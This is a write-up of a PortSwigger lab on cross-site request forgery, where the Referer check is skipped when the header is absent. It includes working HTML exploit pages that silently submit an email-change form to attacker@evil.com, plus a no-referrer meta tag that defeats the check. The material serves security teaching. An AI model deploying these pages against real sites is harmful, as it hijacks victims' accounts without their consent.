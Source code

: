 # CSRF where Referer validation depends on header being present | Dec 15, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present), you'll learn: CSRF where Referer validation depends on header being present! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215045943.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215050007.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215050014.png)

In the previous labs, we found that the email change functionality is vulnerable to CSRF.

**Let's inspect the HTML form in the update email:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```

**In here, we didn't see a CSRF token!**

**Now, we use the `exploit server` to test CSRF attack!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215050513.png)

**Then, we can craft a HTML form that performs CSRF attack to the victim:**
```html
<html>
    <head>
        <title>CSRF-7</title>
    </head>
    <body>
        <form action="https://0a79002404e56adfc0b5a6f6004f008e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Let's test it via the `View exploit` button!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215050745.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215050759.png)

Wait... `Invalid referer header`??

**Hmm... Since the `Referer` HTTP header can be fully controlled by the attacker, we can basically bypass this check!**

**According to [Mozilla web docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy), we can use the `<meta>` tag to ignore `Referer` HTTP header:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215051342.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215051352.png)

**To bypass that, I'll add a new `<meta>` tag to ignore `Referer` header:**
```html
<html>
    <head>
	    <meta name="referrer" content="no-referrer">
        <title>CSRF-7</title>
    </head>
    <body>
        <form action="https://0a79002404e56adfc0b5a6f6004f008e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Finally, we can send this exploit to the victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215051517.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215051523.png)

We successfully changed a victim email address!

# What we've learned:

1. CSRF where Referer validation depends on header being present